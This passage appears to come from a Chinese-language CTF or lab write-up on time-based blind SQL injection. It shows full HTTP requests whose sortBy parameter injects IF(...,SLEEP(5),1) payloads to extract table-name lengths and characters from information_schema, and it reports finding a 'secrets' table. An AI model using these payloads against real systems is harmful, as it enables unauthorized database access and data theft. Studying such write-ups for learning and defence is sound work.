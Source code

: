 依旧筛选超高延迟

![image-20250904011647225](images/image-20250904011647225.png)

```
115 101 99 114 101 116 115   第二个表是->secrets  发现了你的小秘密 嘿嘿🤭 01点18分
```



照葫芦画瓢第三个表

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 2,1))=5,SLEEP(5),1)","order":"asc"}
```

![image-20250904012051358](images/image-20250904012051358.png)

### 长度是27，这尼玛太长了

最后爆名字

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 2,1),1,1))=109,SLEEP(5),1)","order":"asc"}
```
